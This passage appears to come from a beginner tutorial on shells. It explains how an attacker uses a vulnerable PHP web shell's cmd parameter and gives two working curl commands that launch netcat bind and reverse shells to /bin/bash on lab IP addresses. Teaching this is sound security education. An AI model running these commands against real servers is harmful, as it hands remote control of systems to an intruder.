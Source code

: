 In this case, the attacker could send a GET request to the vulnerable web application with a specific cmd parameter. For instance, to run a Linux command like ls or cat, the attacker would send a request like the following:

![image](https://hackmd.io/_uploads/B12ze4MOyx.png)

It may lets some attacker to use some shell techniques to manipulate the server like bind shell or reverse shell that I mentioned before. The attacker can use curl to send a GET request to the vulnerable PHP script on the web server with a cmd parameter that starts a bind shell. The command will look like this:

`curl 192.168.1.21/exploit.php?cmd=nc%20-lvnp%204444%20-e%20/bin/bash` 

![image](https://hackmd.io/_uploads/HJE_ZVfdJe.png)

Once the attacker sends this request, the web server will open port 4444 and wait for an incoming connection. The attacker can now connect to this port remotely and have full access to the victim's shell.

To exploit a vulnerable web shell for a reverse shell, the attacker would send a request like this:

`curl 192.168.1.21/exploit.php?cmd=nc%20192.168.1.8%204444%20-e%20/bin/bash`

![image](https://hackmd.io/_uploads/ryalb4zO1g.png)

In this case, the victim machine will connect to the attacker's IP address (192.168.1.8) on port 4444 and establish a reverse shell. The attacker now has access to the victim machine's shell, and they can run commands remotely.



:::info
The choice to use a reverse shell or a bind shell will, therefore, be determined by configurations of the network, the firewall, and the extent of access the attacker has to the target machine.
:::

## Reference

https://www.geeksforgeeks.org/introduction-linux-shell-shell-scripting/

https://www.digitalocean.com/community/tutorials/different-types-of-shells-in-linux

https://www.geeksforgeeks.org/ssh-command-in-linux-with-examples/

https://www.geeksforgeeks.org/scp-command-in-linux-with-examples/

https://www.hackercoolmagazine.com/beginners-guide-to-shells-in-hacking/?srsltid=AfmBOoqcYf9xmcOgdDYsIdEko3sGu-sbhIjQoDEHlGdBOcjQ59AYJcso

https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/

